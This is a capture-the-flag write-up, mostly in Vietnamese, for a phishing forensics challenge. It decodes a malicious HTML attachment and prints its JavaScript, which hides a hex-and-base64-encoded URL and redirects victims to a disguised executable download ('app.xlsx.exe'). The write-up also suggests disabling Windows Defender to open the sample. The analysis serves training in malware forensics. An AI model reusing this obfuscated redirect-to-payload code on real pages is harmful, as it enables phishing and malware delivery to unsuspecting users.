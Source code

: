 # Description

Spooky Phishing
A few citizens of the Spooky Country have been victims of a targeted phishing campaign. Inspired by the Halloween spirit, none of them was able to detect attackers trap. Can you analyze the malicious attachment and find the URL for the next attack stage?

# Source

- [Source](./index.html)
- [Zip](./forensics_spooky_phishing.zip)

# Solve
- File index.html bị Window Defender phát hiện có mã độc, nếu tự tin thì tắt WD đi và mở nó lên :v (Còn nếu muốn toàn thì hãy dùng máy ảo để mở lên 😁).
- Đọc nội dung file `index.html` sẽ thấy có một đoạn mã javascript bị mã hóa base64. Giải mã đoạn mã sẽ thu được code thuần túy:
```javascript
$(_ => {

    const n = atob($('.il').val());
    const nn = decodeHex(n);

    document.body.style.backgroundImage = 'url(http://microsoftcloudservices.com/images/244057624-a653c399-1e64-444e-8792-e3dfdc204dfd.png)';
    $('#banner').attr('src', 'http://microsoftcloudservices.com/images/244057679-f971f2e6-af4a-40f7-9225-7d4e929ed3ae.png');

    setTimeout(() => {
        const a = atob($('.li').val());
        const aa = decodeHex(a);

        window.location.href = aa + nn;
    }, 3500);
});

function decodeHex(hexx) {
    var hex = hexx.toString();
    var str = '';
    for (var i = 0; i < hex.length; i += 2)
        str += String.fromCharCode(parseInt(hex.substr(i, 2), 16));
    return str;
}
```
- Nói qua về đoạn code trên thì nó sẽ lấy value của hai thẻ có class là `li` và `il`, value được đưa vào hàm `decodeHex` sau đó nối lại với nhau và được duyệt bằng `window.location.href`.
- Lấy giá trị của hai thẻ `li` và `il` (cũng được mã hóa bằng base64) kết hợp với nhau, sau đó giải mã sẽ thu được một chuỗi hex: `68747470733a2f2f77696e646f77736c697665757064617465722e6874622f4854427b737030306b795f7068317368316e675f773174685f737030306b795f7370723334647368333374737d2f6170702e786c73782e657865`
- Đưa vào hàm `decodeHex` và xem kết quả thì thu được một url có chứa Flag: 
![Alt text](image.png)
- `https://windowsliveupdater.htb/HTB{sp00ky_ph1sh1ng_w1th_sp00ky_spr34dsh33ts}/app.xlsx.exe`
`🚩Flag: HTB{sp00ky_ph1sh1ng_w1th_sp00ky_spr34dsh33ts}`